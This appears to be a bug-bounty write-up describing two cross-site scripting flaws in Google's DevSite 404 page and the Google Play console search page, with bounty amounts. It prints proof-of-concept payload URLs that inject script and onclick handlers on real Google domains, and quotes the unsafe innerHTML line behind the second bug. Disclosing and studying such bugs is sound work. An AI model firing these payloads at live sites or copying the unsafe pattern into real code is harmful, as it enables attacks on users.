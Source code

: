 ```yaml
---
title: Google XSS
---
```


# Google DevSite XSS (cloud.google.com, developers.google.com) $3133.70
Due to a vulnerability in the server-side implementation of ```<devsite-language-selector>``` part of the URL was reflected as html so it was possible to get XSS on the origins using that component from the 404 page.  
This was found using [DalFox](https://dalfox.hahwul.com/docs/home/) which kept finding the same bug due to it being the "not found" page.  

https://developers.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a
https://cloud.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a
  
# Google Play XSS (play.google.com)  $5000
On the search page of the google play console vulnerable code was run when the search resulted in an error.  
Getting an error was simple as doing ```/?search=&``` and because ```window.location``` includes the hash which never encodes ```'``` it’s possible to escape the href context and set other html attributes, unlike the DevSite XSS this is prevented by the CSP but was still awarded more by the panel.  
```js
b.innerHTML = b.innerHTML.replace(/({query})/g, "<a href='" + window.location + "'>" + a.g + "</a>");
```
https://play.google.com/console/about/search-results/?search=&#'onclick=alert(document.domain)//

The writeups are referenced on [PortSwigger](https://portswigger.net/daily-swig/xss-vulnerabilities-in-google-cloud-google-play-could-lead-to-account-hijacks)
